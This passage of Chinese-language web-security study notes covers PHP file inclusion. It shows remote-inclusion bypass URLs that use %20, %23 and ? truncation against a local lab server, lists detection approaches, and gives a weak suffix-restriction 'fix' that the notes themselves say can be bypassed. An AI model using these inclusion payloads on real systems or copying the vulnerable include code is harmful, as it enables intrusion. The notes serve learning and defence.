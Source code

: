 ##### 测试结果

可见由于拼接`.html`限制了包含文件的后缀，无法访问到远程地址中的`readme.txt.html`

![](https://gitee.com/YatJay/image/raw/master/img/202203131618884.png)

##### 有限制远程包含绕过

```
%20截断
http://127.0.0.1:8080/include.php?filename=http://192.168.137.128/readme.txt%20

%23截断
http://127.0.0.1:8080/include.php?filename=http://192.168.137.128/readme.txt%23

?截断
http://127.0.0.1:8080/include.php?filename=http://192.168.137.128/readme.txt?
```

另外参考文件上传绕过所使用的的截断方式


## 文件包含漏洞检测

### 白盒

代码审计

### 黑盒

- 漏扫工具

- 公开漏洞

- 手工看参数值及功能点

## 文件包含结合PHP各种伪协议

**php伪协议参考文章：**https://www.cnblogs.com/endust/p/11804767.html

各类语言对伪协议的支持情况如下：

![](https://gitee.com/YatJay/image/raw/master/img/202203131710639.png)

PHP伪协议：

![](https://gitee.com/YatJay/image/raw/master/img/202203131707212.png)



## 文件包含漏洞修复

- 固定后缀：固定或限制被包含的文件类型，可以绕过

  ```php
  <?php
      $filename  = $_GET['filename'];
      include($filename.".html");//限制文件的后缀
  ?>
  ```
